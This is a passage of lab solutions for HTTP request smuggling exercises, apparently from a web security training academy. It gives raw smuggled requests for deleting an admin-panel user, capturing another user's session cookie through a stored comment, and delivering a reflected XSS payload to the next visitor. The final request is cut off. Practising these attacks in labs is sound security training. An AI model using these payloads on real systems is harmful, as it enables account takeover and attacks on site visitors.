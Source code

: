     0  
      
    GET /admin/delete?username=carlos HTTP/1.1  
    X-abcdef-Ip: 127.0.0.1  
    Content-Type: application/x-www-form-urlencoded  
    Content-Length: 10  
    Connection: close  
      
    x=1`

### Lab: Exploiting HTTP request smuggling to capture other users' requests

1.  Visit a blog post and post a comment.
2.  Send the `comment-post` request to Burp Repeater, shuffle the body parameters so the `comment` parameter occurs last, and make sure it still works.
3.  Increase the `comment-post` request's `Content-Length` to 400, then smuggle it to the back-end server:  
    `POST / HTTP/1.1  
    Host: your-lab-id.web-security-academy.net  
    Content-Type: application/x-www-form-urlencoded  
    Content-Length: 256  
    Transfer-Encoding: chunked  
      
    0  
      
    POST /post/comment HTTP/1.1  
    Content-Type: application/x-www-form-urlencoded  
    Content-Length: 400  
    Cookie: session=your-session-token  
      
    csrf=your-csrf-token&postId=5&name=Carlos+Montoya&email=carlos%40normal-user.net&website=&comment=test`
4.  View the blog post to see if there's a comment containing a user's request. Note that the target user only browses the website intermittently so you may need to repeat this attack a few times before it's successful.
5.  Copy the user's Cookie header from the comment, and use it to access their account.

**Note**

If the stored request is incomplete and doesn't include the Cookie header, you will need to slowly increase the value of the Content-Length header in the smuggled request, until the whole cookie is captured.

### Lab: Exploiting HTTP request smuggling to deliver reflected XSS

1.  Visit a blog post, and send the request to Burp Repeater.
2.  Observe that the comment form contains your `User-Agent` header in a hidden input.
3.  Inject an XSS payload into the `User-Agent` header and observe that it gets reflected:  
    `"/><script>alert(1)</script>`
4.  Smuggle this XSS request to the back-end server, so that it exploits the next visitor:  
    `POST / HTTP/1.1  
    Host: your-lab-id.web-security-academy.net  
    Content-Type: application/x-www-form-urlencoded  
    Content-Length: 150  
    Transfer-Encoding: chunked  
      